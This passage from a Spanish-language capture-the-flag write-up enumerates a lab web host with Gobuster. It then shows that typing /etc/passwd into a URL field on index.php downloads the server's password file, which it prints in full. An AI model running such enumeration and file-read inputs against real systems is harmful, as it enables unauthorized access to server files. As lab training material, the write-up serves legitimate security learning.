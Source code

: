 ```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://welcome.bassam.ctf/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,md,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 283]
/.htpasswd.md         (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 283]
/.htaccess.md         (Status: 403) [Size: 283]
/.htpasswd.txt        (Status: 403) [Size: 283]
/.htpasswd.php        (Status: 403) [Size: 283]
/.htpasswd.html       (Status: 403) [Size: 283]
/.htaccess.html       (Status: 403) [Size: 283]
/.htaccess.php        (Status: 403) [Size: 283]
/.htaccess            (Status: 403) [Size: 283]
/config.php           (Status: 200) [Size: 0]
/index.html           (Status: 200) [Size: 38]
/index.php            (Status: 200) [Size: 229]
/server-status        (Status: 403) [Size: 283]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos varias cosas interesantes, pero si ponemos `/index.php` veremos un recuadro pidiendo una `URL`...

Si en ese espacio metemos por ejemplo `/etc/passwd` se nos descargara el archivo...

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
```